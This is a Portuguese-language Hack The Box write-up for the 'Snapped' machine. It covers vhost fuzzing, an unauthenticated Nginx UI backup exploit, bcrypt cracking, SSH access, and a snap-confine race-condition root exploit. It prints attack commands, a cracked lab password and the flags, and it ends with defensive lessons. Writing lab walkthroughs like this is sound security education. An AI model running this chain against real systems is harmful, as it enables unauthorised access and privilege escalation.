# Hack The Box — Snapped


---

# Informações da Máquina

| Nome | Dificuldade | Plataforma | OS |
| ---- | ----------- | ---------- | -- |
| Snapped | Hard | Hack The Box | Linux |

---

# Superfície de ataque

1. Enumeração inicial com Nmap  
2. Identificação de aplicação web em Nginx  
3. Descoberta do virtual host `admin.snapped.htb`  
4. Identificação do painel **Nginx UI**  
5. Exploração de backup não autenticado via **CVE-2026-27944**  
6. Download e descriptografia do backup  
7. Extração de hashes bcrypt do banco SQLite  
8. Crack do hash do usuário `jonathan`  
9. Acesso via SSH como `jonathan`  
10. Enumeração local do `snapd` e `snap-confine`  
11. Exploração de **CVE-2026-3888**  
12. Criação de shell SUID root  
13. Leitura da flag de root  

---

# Reconhecimento

A enumeração inicial foi feita com Nmap para identificar portas abertas, versões dos serviços e possíveis vetores de ataque.

```
nmap -sC -sV -A -T4 <IP>
```



O scan revelou uma superfície externa pequena:

- **22/tcp — SSH**: OpenSSH 9.6p1 Ubuntu
- **80/tcp — HTTP**: Nginx 1.24.0

O serviço HTTP retornava um redirect para o domínio:

```
http://snapped.htb/
```

Com isso, foi necessário adicionar o domínio ao `/etc/hosts`:

```
sudo nano /etc/hosts
```

```
<IP> snapped.htb
```

---

# Enumeração Web

Acessando `http://snapped.htb`, foi exibida uma página institucional chamada **Snapped**, relacionada a uma plataforma de infraestrutura.



A página principal parecia ser estática e não apresentava funcionalidades diretamente exploráveis. Como a aplicação usava virtual host, o próximo passo foi buscar subdomínios.

---

# Enumeração de Subdomínios

Foi utilizado `ffuf` para bruteforce de virtual hosts usando o header `Host`.

```
ffuf -u http://snapped.htb \
  -H "Host: FUZZ.snapped.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -mc 200
```



O resultado revelou o subdomínio:

```
admin.snapped.htb
```

O `/etc/hosts` foi atualizado novamente:

```
<IP> snapped.htb admin.snapped.htb
```

---

# Painel Nginx UI

Ao acessar o novo virtual host, foi exibida uma tela de login do **Nginx UI**.

```
http://admin.snapped.htb
```



Como não havia credenciais válidas nesse momento, a enumeração passou a focar nos endpoints expostos pela aplicação. Durante a análise, foi possível identificar que a instância do Nginx UI estava vulnerável ao **CVE-2026-27944**.

---

# Exploração — CVE-2026-27944

A vulnerabilidade **CVE-2026-27944** afeta versões do Nginx UI anteriores à 2.3.3. O problema ocorre porque o endpoint de backup pode ser acessado sem autenticação e retorna, no header `X-Backup-Security`, os dados necessários para descriptografar o backup.

O endpoint vulnerável é:

```
/api/backup
```

Na prática, isso permite que um atacante não autenticado baixe o backup da aplicação e recupere arquivos sensíveis, como configurações, banco de dados SQLite, tokens e credenciais.

Foi utilizado um script para baixar e descriptografar o backup automaticamente:

```
python poc.py --target http://admin.snapped.htb --decrypt
```



O script recuperou o backup e extraiu arquivos como:

```
hash_info.txt
nginx-ui.zip
nginx.zip
```

Após a descriptografia, foram extraídos arquivos de configuração do Nginx e da aplicação Nginx UI.

---

# Análise do Backup

Após extrair os arquivos, foi feita uma busca por informações sensíveis dentro do backup.

```
grep -RniE "password|passwd|user|username|admin|secret|token|key|jwt|auth|database|db|mysql|postgres|sqlite|redis" .
```



Foram encontrados dados relevantes em arquivos como:

```
nginx-ui/app.ini
nginx-ui/database.db
nginx/sites-available/nginx-ui
```

O arquivo `app.ini` indicava o caminho do banco SQLite usado pela aplicação:

```
/var/lib/nginx-ui/database.db
```

Também foram identificados secrets da aplicação, como `JwtSecret` e outros valores internos. Porém, o ponto mais importante para avanço foi o banco `database.db`.

---

# Banco SQLite e Extração de Hashes

O banco SQLite extraído do backup foi analisado com `sqlite3`.

```
sqlite3 -header -column nginx-ui/database.db "SELECT * FROM users;"
```



A tabela `users` revelou dois usuários principais:

```
admin
jonathan
```

Ambos possuíam hashes no formato bcrypt. O hash do usuário `jonathan` foi salvo em um arquivo para tentativa de crack.

---

# Crack do Hash

Como os hashes estavam em bcrypt, foi utilizado o John the Ripper com a wordlist `rockyou.txt`.

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```



O hash do usuário `jonathan` foi quebrado com sucesso:

```
jonathan:linkinpark
```

Esse foi o ponto de transição entre exploração web e acesso ao sistema operacional.

---

# Movimento Lateral — SSH como jonathan

Com a senha recuperada, foi testado acesso via SSH.

```
ssh jonathan@<IP>
```



O login foi bem-sucedido, confirmando reutilização de credenciais entre a aplicação e o sistema.

---

# Flag de Usuário

Após acessar a máquina como `jonathan`, foi possível ler a flag de usuário no diretório home.

```
cat user.txt
```



```
57c87763a472fe27379250e2a2a2e691
```

---

# Enumeração para Escalação de Privilégio

Com acesso como `jonathan`, o próximo objetivo foi identificar um caminho para root.

Primeiro, foi verificado se o usuário possuía permissões via `sudo`.

```
sudo -l
```

O usuário não possuía permissão para executar comandos como root via `sudo`.

Durante a enumeração do sistema, foi identificada a presença do `snapd` e do binário `snap-confine` com bit SUID ativo.

```
snap version
```

```text
snap    2.63.1+24.04
snapd   2.63.1+24.04
series  16
ubuntu  24.04
kernel  6.17.0-19-generic
```

Também foi verificado o binário `snap-confine`:

```
ls -l /usr/lib/snapd/snap-confine
```

```
-rwsr-xr-x 1 root root 159016 Aug 20  2024 /usr/lib/snapd/snap-confine
```

O bit SUID indicava que o binário era executado com privilégios de root, tornando-o um alvo interessante para escalação de privilégio.

---

# CVE-2026-3888 — snap-confine / systemd-tmpfiles LPE

A versão do `snapd` presente na máquina estava vulnerável ao **CVE-2026-3888**, uma falha de escalação local de privilégios envolvendo `snap-confine` e `systemd-tmpfiles`.

A ideia geral da exploração é abusar da limpeza automática do diretório temporário usado pelo snap. Quando o diretório privado do snap é removido pelo `systemd-tmpfiles`, um atacante local pode recriar estruturas controladas dentro do ambiente temporário e vencer uma race condition durante a criação do namespace do `snap-confine`.

O ponto crítico é substituir o dynamic linker:

```
ld-linux-x86-64.so.2
```

por um payload controlado. Quando o `snap-confine` SUID carrega esse linker dentro do namespace, o payload é executado com privilégios de root.

---

# Preparação do Exploit

Foi utilizado o exploit público para a variante SUID do `snap-confine`. Os arquivos foram compilados na máquina atacante.

```
gcc -O2 -static -o exploit exploit_suid.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
```

Depois, os binários foram enviados para a máquina alvo via `scp`.

```
scp exploit librootshell.so jonathan@snapped.htb:/home/jonathan/
```



---

# Escalação de Privilégio

Na máquina alvo, o exploit foi executado passando o payload `librootshell.so` como argumento.

```
./exploit ./librootshell.so
```



O exploit passou pelas seguintes etapas principais:

1. Entrou no sandbox do Firefox via snap  
2. Aguardou a remoção do diretório `.snap` pelo `systemd-tmpfiles`  
3. Destruiu o namespace cacheado  
4. Venceu a race condition contra o `snap-confine`  
5. Injetou o payload no namespace envenenado  
6. Acionou o `snap-confine` SUID  
7. Criou uma cópia SUID de `/bin/bash` em `/var/snap/firefox/common/bash`  

O resultado foi uma shell com `euid=0`:

```
id
```

```
uid=1000(jonathan) gid=1000(jonathan) euid=0(root) groups=1000(jonathan)
```

Isso confirmou a escalação de privilégios para root.

---

# Flag de Root

Com a shell root obtida, a flag final foi lida em `/root/root.txt`.

```
cat /root/root.txt
```



```
627130acf73d2942b982ff6ae721f7b3
```

---

# Vulnerabilidades Identificadas

### Backup não autenticado no Nginx UI — CVE-2026-27944

O endpoint `/api/backup` estava acessível sem autenticação e expunha material criptográfico suficiente para descriptografar o backup da aplicação.

### Exposição de dados sensíveis em backup

O backup continha arquivos de configuração, banco SQLite e dados sensíveis da aplicação, incluindo hashes de usuários.

### Hash bcrypt crackável

O hash do usuário `jonathan` foi quebrado com uma wordlist comum, permitindo acesso ao sistema via SSH.

### Reutilização de credenciais

A senha recuperada da aplicação também era válida para o usuário local `jonathan` via SSH.

### Escalação local via snap-confine — CVE-2026-3888

A versão vulnerável do `snapd` permitiu abusar da interação entre `snap-confine` e `systemd-tmpfiles` para executar código como root.

---

# Ferramentas Utilizadas

- Nmap
- FFUF
- Python3
- SQLite3
- grep
- John the Ripper
- RockYou
- SSH
- SCP
- GCC
- Exploit público para CVE-2026-3888

---

# Principais Aprendizados

- Virtual hosts devem ser enumerados quando o servidor HTTP redireciona para um domínio específico.
- Painéis administrativos expostos podem revelar endpoints internos interessantes mesmo sem login.
- Backups acessíveis sem autenticação podem comprometer toda a aplicação.
- Não basta criptografar backups se a chave ou o IV também são entregues ao atacante.
- Bancos SQLite em backups costumam conter credenciais, tokens e configurações sensíveis.
- Hashes bcrypt ainda podem ser quebrados quando a senha é fraca ou comum.
- Reutilização de senha entre aplicação e sistema operacional facilita movimento lateral.
- Binários SUID devem ser investigados com atenção durante a enumeração local.
- Vulnerabilidades locais recentes em componentes do sistema, como `snapd`, podem ser decisivas em máquinas Linux modernas.
- Race conditions podem exigir múltiplas tentativas e dependem bastante do estado do ambiente.

---

# Autor

https://github.com/ninjaa-exe
